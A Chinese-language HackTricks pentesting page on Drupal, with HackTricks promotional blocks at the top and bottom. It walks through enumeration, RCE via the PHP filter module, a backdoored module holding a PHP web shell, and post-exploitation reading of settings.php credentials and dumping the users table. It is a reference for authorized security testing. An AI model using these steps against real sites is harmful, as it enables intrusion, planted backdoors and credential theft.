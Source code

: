# Drupal

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

其他支持HackTricks的方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## 发现

* 检查**meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **节点**: Drupal **使用节点索引其内容**。一个节点可以包含任何内容，比如博客文章、投票、文章等。页面的URI通常采用形式`/node/<nodeid>`。
```bash
curl drupal-site.com/node/1
```
## 枚举

Drupal 默认支持**三种类型的用户**：

1. **`管理员`**：此用户对Drupal网站拥有完全控制权。
2. **`已验证用户`**：这些用户可以登录网站，并根据其权限执行操作，如添加和编辑文章。
3. **`匿名用户`**：所有网站访问者都被指定为匿名用户。默认情况下，这些用户只能阅读帖子。

### 版本

* 检查 `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Drupal的新安装默认阻止访问`CHANGELOG.txt`和`README.txt`文件。
{% endhint %}

### 用户名枚举

#### 注册

在 _/user/register_ 中尝试创建用户名，如果该名称已被使用，将会收到通知：

![](<../../.gitbook/assets/image (325).png>)

#### 请求新密码

如果为现有用户名请求新密码：

![](<../../.gitbook/assets/image (900).png>)

如果为不存在的用户名请求新密码：

![](<../../.gitbook/assets/image (304).png>)

### 获取用户数量

访问 _/user/\<number>_ 您可以查看现有用户的数量，在这种情况下为2，因为 _/users/3_ 返回未找到错误：

![](<../../.gitbook/assets/image (330).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### 隐藏页面

**模糊 `/node/$` 其中 `$` 是一个数字**（例如从1到500）。\
您可能会发现**隐藏页面**（测试、开发），这些页面未被搜索引擎引用。

#### 已安装模块信息
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### 自动化
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### 使用 PHP 过滤器模块

{% hint style="warning" %}
在 Drupal 的旧版本 **(8 版本之前)** 中，可以登录为管理员并**启用 `PHP 过滤器` 模块**，该模块"允许评估嵌入的 PHP 代码/片段"。
{% endhint %}

您需要安装**插件 php**（访问 _/modules/php_ 进行检查，如果返回 **403**，则**已安装**；如果**未找到**，则**插件 php 未安装**）

转到 _模块_ -> (**检查**) _PHP 过滤器_ -> _保存配置_

![](<../../.gitbook/assets/image (247) (1).png>)

然后点击 _添加内容_ -> 选择 _基本页面_ 或 _文章_ -> 在正文中编写 _php shellcode_ -> 在 _文本格式_ 中选择 _PHP 代码_ -> 选择 _预览_

![](<../../.gitbook/assets/image (335).png>)

最后只需访问新创建的节点：
```bash
curl http://drupal-site.local/node/3
```
### 安装 PHP 过滤器模块

从**8版本开始**，[**PHP 过滤器**](https://www.drupal.org/project/php/releases/8.x-1.1) **模块不再默认安装**。要使用此功能，我们需要**自己安装该模块**。

1. 从 Drupal 网站下载最新版本的模块。
2. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
3. 下载完成后，转到**`管理`** > **`报告`** > **`可用更新`**。
4. 点击**`浏览`**，选择从我们下载到的目录中的文件，然后点击**`安装`**。
5. 安装完成后，我们可以点击**`内容`**，并**创建一个新的基本页面**，类似于我们在 Drupal 7 示例中所做的操作。再次确保从**`文本格式`下拉菜单中选择`PHP 代码`**。

### 后门模块

可以通过**向现有模块添加 shell** 来创建后门模块。可以在 drupal.org 网站上找到模块。让我们选择一个模块，如[验证码](https://www.drupal.org/project/captcha)。向下滚动并复制 tar.gz [存档](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz)的链接。

* 下载存档并提取其内容。
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* 使用以下内容创建一个 **PHP Web Shell**：
```php
<?php
system($_GET["cmd"]);
?>
```
* 接下来，我们需要创建一个**`.htaccess`**文件，以便让自己访问该文件夹。这是必要的，因为Drupal拒绝直接访问**`/modules`**文件夹。
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* 上面的配置将在我们请求/modules文件夹中的文件时应用规则。将这两个文件都复制到captcha文件夹中并创建一个存档。
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* 假设我们拥有对网站的**管理访问权限**，点击侧边栏上的**`管理`**，然后点击**`扩展`**。接下来，点击**`+ 安装新模块`**按钮，我们将被带到安装页面，例如`http://drupal-site.local/admin/modules/install`浏览到带后门的验证码存档并点击**`安装`**。
* 安装成功后，浏览到**`/modules/captcha/shell.php`**以执行命令。

## 后渗透

### 读取 settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### 从数据库中转储用户
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## 参考资料

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


<details>

<summary><strong>从零开始学习AWS黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
